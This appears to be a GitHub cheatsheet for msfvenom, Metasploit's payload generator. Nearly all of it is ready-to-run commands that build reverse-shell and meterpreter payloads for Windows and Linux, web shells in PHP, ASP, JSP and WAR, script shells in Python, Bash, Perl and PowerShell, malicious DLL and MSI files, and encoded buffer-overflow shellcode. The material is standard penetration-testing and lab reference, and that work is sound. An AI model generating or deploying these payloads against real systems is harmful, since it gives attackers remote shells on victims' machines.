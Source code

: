 # MSFVenom Cheatsheet
```default
      o O o                   
              o O             
                 o            
 |^^^^^^^^^^^^^^|l___         
 |    PAYLOAD     |""\___,    
 |________________|__|)__|    
  (@)(@)"""**|(@)(@)**|(@)    
   __  __  _____ ________      __                        
  |  \/  |/ ____|  ____\ \    / /                        
  | \  / | (___ | |__   \ \  / /__ _ __   ___  _ __ ___  
  | |\/| |\___ \|  __|   \ \/ / _ \ '_ \ / _ \| '_ ` _ \ 
  | |  | |____) | |       \  /  __/ | | | (_) | | | | | |
  |_|  |_|_____/|_|        \/ \___|_| |_|\___/|_| |_| |_|
```

The payloads with "(no stages)" can be received with a regular netcat listener. The meterpreter or staged payloads require Metasploit's "multi/handler" module.

## Windows (no stages)
```bash
# Win x86
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Windows (meterpreter)

```bash
# Win x86 staged
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64 staged
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Win x86 stageless
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Win x64 stageless
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Linux (no stages)
```bash
# Linux x86
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Linux (meterpreter)
```bash
# Linux x86 staged
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64 staged
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# Linux x86 stageless
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Linux x64 stageless
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Reverse Shells

```bash
# PHP
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

# ASP
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# ASPX
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Script Reverse Shells

```bash
# Python
# you will have to strip off the python command in the resulting file
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

# Powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 -f psh -o psshell.ps1
#cmd> powershell.exe -ExecutionPolicy Bypass -File psshell.ps1
```

## DLL
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f dll -o hackedlib.dll
```

## MSI
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f msi -o reverse.msi
```

## Binary exploitation

```bash
# find a suitable payload
msfvenom -l payloads

# find suitable encoders
msfvenom -l encoders
```

Basic BOF Example:
```bash
# generate payload
# at the end there are the badchars
# use EXITFUNC=thread after LPORT=4444 if you want the application to resume afterwards
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Manage exit behavior with exit function:
```bash
# Thread exit function (allow process to continue after exploit)
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f py –e x86/shikata_ga_nai -b "\x00" EXITFUNC=thread

# Process exit function (use when using multi/handler or when )
EXITFUNC=process

# structured exception handler
EXITFUNC=seh

# None
EXITFUNC=none
```

Pop calc:
```bash
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f c
```

Shellcode variable name:
```bash
-v payload
```

## References

* https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
* https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
* https://www.offensive-security.com/metasploit-unleashed/msfvenom/
